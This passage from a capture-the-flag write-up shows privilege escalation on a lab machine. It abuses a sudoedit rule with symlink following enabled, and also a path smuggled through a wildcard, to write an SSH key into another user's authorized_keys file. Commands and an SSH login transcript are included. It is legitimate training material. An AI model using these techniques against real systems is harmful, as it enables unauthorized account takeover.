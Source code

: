 > Starting with version 1.8.15, `sudoedit` will not follow symbolic links when opening files unless the *sudoedit\_follow* option is enabled. The *FOLLOW* and *NOFOLLOW* tags override the value of *sudoedit\_follow* and can be used to permit (or deny) the editing of symbolic links on a per-command basis. These tags are only effective for the *sudoedit* command and are ignored for all other commands.

So in order to not break the behavior if someone really wanted that, the `sudoedit_follow` flag allows it to behave like the version 1.8.14 and before. And that flag is present in this config.

Now I just have to drop a symlink to where I want to write as `layout.html`, and I should be able to edit.

#### Exploit

I’ll make a directory in the `/var/www/testing` directory, `0xdf`. In there, I’ll drop a symbolic link to the a file I want to write as alekos, the user’s `authorized_keys` file.

```

werkzeug@joker:~/testing$ mkdir 0xdf
werkzeug@joker:~/testing/0xdf$ ln -s /home/alekos/.ssh/authorized_keys layout.html
werkzeug@joker:~/testing/0xdf$ ls -l
total 0
lrwxrwxrwx 1 werkzeug werkzeug 33 Aug  4 03:53 layout.html -> /home/alekos/.ssh/authorized_keys

```

Now I can `sudoedit` the file with `sudoedit -u alekos /var/www/testing/0xdf/layout.html`. It opens a blank file in `nano`, so I’ll paste in my public SSH key.

### Exploit #2 - Wildcard Abuse

The command I can run is `sudoedit /var/www/*/*/layout.html`. What if I let the `*/*` be `[space].ssh/authorized_keys[space]`. The command then becomes `sudoedit /var/www/ .ssh/authorized_keys /layout.html`, which will try to open three files to edit. The first, `/var/www/` will fail because it’s a directory. The second will open, and the third will allow me to edit the temporary file, but then won’t be able to write `layout.html` at the system root.

I’ll use this to drop a public key into the `authorized_keys` file just like above.

### SSH

Either way I update the `authorized_keys` file, I can connect over SSH:

```

root@kali# ssh -i ~/keys/ed25519_gen alekos@10.10.10.21
The authenticity of host '10.10.10.21 (10.10.10.21)' can't be established.
ECDSA key fingerprint is SHA256:1yj4blzJwO5TYIZYFB3HMwXEqeflHc2iF1Idp3lZ94k.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.21' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.10 (GNU/Linux 4.8.0-52-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Sat May 20 16:38:08 2017 from 10.10.13.210
alekos@joker:~$

```
